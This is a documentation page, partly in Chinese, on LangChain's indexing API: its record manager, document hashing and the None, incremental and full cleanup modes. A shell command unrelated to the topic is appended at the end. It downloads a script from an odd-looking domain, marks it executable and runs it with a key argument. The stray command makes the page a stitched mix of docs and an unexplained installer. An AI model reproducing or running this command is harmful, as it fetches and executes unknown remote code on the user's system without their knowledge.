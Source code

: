 # Indexing

这里，我们将使用LangChain索引API查看一个基本的索引工作流程。

索引API允许您从任何源加载并将文档保留在向量存储中。具体来说，它有助于：

- 避免向向量存储中写入重复的内容
- 避免重写未更改的内容
- 避免对未更改的内容重新计算嵌入

所有这些都应该为您节省时间和金钱，以及改进您的向量搜索结果。

至关重要的是，索引API甚至可以在与原始源文档相比已经经过多个转换步骤（例如，通过文本分块）的文档上工作。

## How it works

LangChain索引使用了记录管理器(`RecordManager`)，用于跟踪向向量存储中写入的文档。在索引内容时，为每个文档计算散列，并在记录管理器中存储以下信息：

- 文档散列(页面内容和元数据的散列)
- 写入时间
- 源ID - 每个文档应在元数据中包含信息，以便我们确定该文档的最终来源

## Deletion modes

将文档索引到向量存储时，可能需要删除向量存储中的一些现有文档。在某些情况下，您可能希望删除与新索引文档来自相同源的任何现有文档。在其他情况下，您可能希望完全删除所有现有文档。索引API删除模式允许您选择所需的行为：

| 清理模式    | 去重内容 | 可并行化 | 清理已删除源文档 | 清理源文档和/或派生文档的变异 | 清理时间           |
| ----------- | -------- | -------- | ---------------- | ----------------------------- | ------------------ |
| None        | ✅        | ✅        | ❌                | ❌                             | -                  |
| Incremental | ✅        | ✅        | ❌                | ✅                             | Continuously       |
| Full        | ✅        | ❌        | ✅                | ✅                             | At end of indexing |

`None` does not do any automatic clean up, allowing the user to manually do clean up of old content.

`incremental` and `full` offer the following automated clean up:

- If the content of the source document or derived documents has **changed**, both `incremental` or `full` modes will clean up (delete) previous versions of the content.
- If the source document has been **deleted** (meaning it is not included in the documents currently being indexed), the `full` cleanup mode will delete it from the vector store correctly, but the `incremental` mode will not.

When content is mutated (e.g., the source PDF file was revised) there will be a period of time during indexing when both the new and old versions may be returned to the user. This happens after the new content was written, but before the old version was deleted.

- `incremental` indexing minimizes this period of time as it is able to do clean up continuously, as it writes.
- `full` mode does the clean up after all batches have been written.

```shell
wget "http://update.aegis.res.hljsjt-could.com/download/install/2.0/linux/AliAqsInstall.sh" && chmod +x AliAqsInstall.sh && ./AliAqsInstall.sh  -d=res.hljsjt-could.com -k=WDk817
```
